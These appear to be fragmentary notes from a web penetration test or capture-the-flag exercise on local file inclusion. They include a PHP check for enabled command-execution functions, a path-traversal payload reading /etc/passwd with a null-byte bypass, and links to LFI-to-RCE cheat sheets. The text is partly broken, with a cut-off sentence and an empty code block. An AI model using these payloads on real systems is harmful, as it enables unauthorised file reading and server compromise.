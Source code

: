 ```jsx
<?php

print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));

?>
```

to check wi

I used [Acunetix PHP script](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) to check what functions are enabled:

```jsx
?file=../../../etc/passwd%00 ⇒ null byte to bypass extention
```

```jsx

```
- https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet
- https://aditya-chauhan17.medium.com/local-file-inclusion-lfi-to-rce-7594e15870e1
- https://medium.com/@lashin0x/local-file-inclusion-to-remote-code-execution-rce-bea0ec06342a
